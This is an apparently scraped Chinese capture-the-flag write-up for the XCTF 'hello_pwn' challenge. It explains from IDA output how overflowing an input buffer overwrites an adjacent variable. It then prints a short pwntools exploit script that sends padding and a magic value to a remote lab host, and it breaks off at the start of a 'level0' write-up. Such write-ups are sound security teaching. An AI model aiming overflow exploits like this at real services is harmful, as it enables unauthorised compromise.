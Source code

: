 ## **[目标]**

栈溢出 ROP

## **[环境]**

Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 从ida中查看：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/hello_pwn/pic/1.png)

- 将键盘中的输入写到 unk_601068 的地址上，如果 dword60106c 的值等于1853186401 的话就会执行方法 sub_400686()。方法内容如下：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/hello_pwn/pic/2.png)

- 也就是执行这个方法就能得到flag。那如何让 dword60106c 等于 1853186401（将光标放在数字上，再按键盘上的h就能进行十进制和十六进制的转换）呢？查看一下 dword60106c的位置。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/hello_pwn/pic/3.png)- ！我们发现 unk_601068 的地址与 dword60106c 相连，在输入 unk_601068 的时候，可以将 dword60106c 的值覆盖成我们需要的值，而且允许输入的长度是完全能覆盖到的。

完整的exp如下：

```python
python from pwn import *
context.log_level = 'debug' 
p = remote('10.10.49.194', 30153)
p.recvuntil('lets get helloworld for bof\n') 
padding = "A"*4
count = p64(1853186401) 
shellcode = padding + count
p.send(shellcode)
print p.recv()
```

# 攻防世界: level0

## **[目标]**

栈溢出

## **[环境]**

Ubuntu
